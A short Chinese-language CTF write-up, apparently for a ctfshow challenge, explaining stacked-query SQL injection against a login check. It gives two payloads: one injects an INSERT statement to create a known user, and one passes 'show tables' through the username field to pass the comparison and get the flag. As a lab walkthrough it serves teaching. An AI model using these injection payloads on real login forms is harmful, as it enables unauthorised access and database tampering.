

# 知识点
### insert
insert 可以不要into
# 思路
### 方法一
```php
0;insert ctfshow_user(`username`,`pass`) value(1,2)
username 1
pass 2
```

### 方法二
我们可以在username把表全部查询出来，在password里传入表名，相等即可符合判断条件爆出flag
```php
username：520;show tables
password：ctfshow_user
```
